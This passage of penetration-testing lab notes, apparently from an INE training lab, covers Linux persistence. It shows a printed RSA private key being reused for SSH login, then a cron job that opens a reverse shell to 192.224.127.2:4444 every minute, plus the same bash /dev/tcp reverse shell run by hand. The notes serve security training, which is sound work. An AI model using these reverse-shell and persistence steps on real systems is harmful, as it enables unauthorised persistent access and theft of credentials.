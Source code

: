 ```bash
vYXC0cfmxNS8oxWz0uktCrMCgYB6ufF9OMfBxgD6g4WAciss46CvmojIG71mbL8M
tV2kuMC0PN0oXRKELL3jHUKga/lNfefg9WC9UtS8IfmyINtCHJIDABwrJzdJjOiZ
326cIyb5ZUrYsCJaRAI117DNRqgDQL3GtEyV1CPBwin7Avny3mT0rKAmNIUYKaGS
OBuDXQKBgQDIRYOZEaV8rXx3wN24NYuByNUpRM3AIyPIwAuaPklWD6D2KdDveheI
lZtRb6Yzzmeon0DuLPdl7e/R7e5Z8Mx3o40aiJLULlw95JqON3J3W471PZAG1L/g
59PKgUMBNVX9UsUqvHyWlcY/FAT9UhWblgDoN3uXY9Db6q5x7hWzKw==
-----END RSA PRIVATE KEY-----
student@demo:~/.ssh$ exit
logout
Connection to demo.ine.local closed.
# copy the rsa private key and paste it in a file called id_rsa

┌──(root㉿INE)-[~]
└─# nano id_rsa

┌──(root㉿INE)-[~]
└─# ssh -i id_rsa student@demo.ine.local
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
student@demo.ine.local's password:

┌──(root㉿INE)-[~]
└─# chmod 400 id_rsa

┌──(root㉿INE)-[~]
└─# ssh -i id_rsa student@demo.ine.local                                                                                                                                                                                             
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 6.8.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Jun 19 17:30:48 2025 from 192.60.216.2
student@demo:~$ 

```
### **6-Persistence Via Cron Jobs**
- Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule. 
- An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job. 
- We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.
```bash
student@demo:~$ echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.224.127.2/4444 0>&1'" > cron
student@demo:~$ cat cron 
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.224.127.2/4444 0>&1'
student@demo:~$ crontab -i cron
student@demo:~$ crontab -l
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.224.127.2/4444 0>&1'
student@demo:~$ bash -i >& /dev/tcp/192.224.127.2/4444 0>&1
```